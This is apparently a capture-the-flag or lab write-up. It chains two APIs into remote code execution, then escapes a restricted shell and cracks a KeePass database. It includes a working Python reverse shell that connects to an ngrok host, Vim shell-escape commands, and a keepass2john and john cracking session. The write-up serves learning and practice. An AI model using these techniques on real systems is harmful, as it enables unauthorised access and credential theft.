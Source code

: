 Here we have some API instructions: 


<img width="1017" alt="image" src="https://github.com/user-attachments/assets/486b1298-b32e-4471-8970-c73cb9ea6146">


Exploring them, we find two interesting API's that could be used to gain RCE:


![telegram-cloud-photo-size-4-5964352502373659856-w](https://github.com/user-attachments/assets/a2942bde-107a-41d0-96c7-775a52ada323)


First API fetches the content from the presented page and saves it to the specified file, the second API runs module from `./modules` directory.

Second API runs the script from the `modules` directory.

Let's create a reverse-shell script using python:

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("0.tcp.jp.ngrok.io",10336));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty; pty.spawn("/bin/bash")
```

Then upload it using first API:

![telegram-cloud-photo-size-4-5964422776628557185-w](https://github.com/user-attachments/assets/92f67ec1-40c6-42ad-af23-fdf958cf37af)

And run using second API:

![telegram-cloud-photo-size-4-5964036740673025327-w](https://github.com/user-attachments/assets/7f892fe5-6043-4b19-817f-9be3431c7888)

We have successfully gained RCE using API's, but we find ourselves in a restricted shell enviroment, which is not good at all for our goals: 


<img width="613" alt="image" src="https://github.com/user-attachments/assets/4499fccd-aae6-41d1-aee3-cfe6da6bcbbc">

We're lucky to have an access to the Vim binary though, which allows us to break out of the restricted shell:

```
:set shell=/bin/sh
:shell
```

We're now in a much better enviroment, lets export default PATH variable to access all the binaries

<img width="771" alt="image" src="https://github.com/user-attachments/assets/6480b7ed-4a7b-405c-9cb5-71f0546f387d">


In a /home directory we find a Keepass2 database, let's crack it using john or hashcat:

```

┌──(kali㉿kali)-[~/Desktop]
└─$ keepass2john Database.kdbx > brute && john brute
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 6 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
```